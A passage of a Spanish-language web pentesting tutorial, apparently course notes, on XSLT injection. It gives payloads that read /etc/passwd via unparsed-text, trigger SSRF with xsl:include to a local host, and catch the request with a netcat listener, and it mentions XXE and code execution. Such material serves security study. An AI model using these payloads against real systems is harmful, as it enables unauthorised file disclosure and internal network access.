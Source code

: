 ```
- https://www.w3.org/TR/xslt-10/
- https://www.w3.org/TR/xslt20/
- https://www.w3.org/TR/xslt-30/
```

#### Lectura de archivos XSLT <a href="#xslt-file-read" id="xslt-file-read"></a>

Si controlamos el archivo XSL:

```
unparsed-text($href as xs:string?) as xs:string?
unparser-text($href as xs:string?, $encoding as xs:string) as xs:string?

# the 'unparsed-text' function reads an external resource 
# (For example: a file) and returns its contents as a string
```

Ejemplo:

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
# the result contains a /etc/passwd file
```

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/66.png)

XSL:Include es otra función interesante, que nos permite unir otra hoja de estilo xsl. La desventaja es que tiene que ser un documento XSL válido. Ventaja: La SSRF todavía es posible.

#### XSLT SSRF <a href="#xslt-ssrf" id="xslt-ssrf"></a>

```
<xsl:include href="http://127.0.0.1:8080/xslt"/>
```

El agente de escucha de netcat recibe la solicitud. Podemos reconocer la versión java de la víctima en el encabezado User-agent.

```
nc -lvnp 8080
```

#### Extensión de los ataques XSLT <a href="#extending-xslt-attacks" id="extending-xslt-attacks"></a>

En el mundo real, es difícil. Pero, de nuevo, la documentación puede ayudarte a identificar un vuln grave. Además, los analizadores XSLT pueden ser vulnerables a XXE vulns de la misma manera que todos los demás analizadores XML.

> Al responder a las **directivas XSL:INCLUDE**, u también puede intentar responder con XML que contenga una carga útil XXE.

> Además, es posible que los motores XSLT puedan ejecutar código personalizado, lo que da como resultado RCE

la segunda entrada es el código XSLT

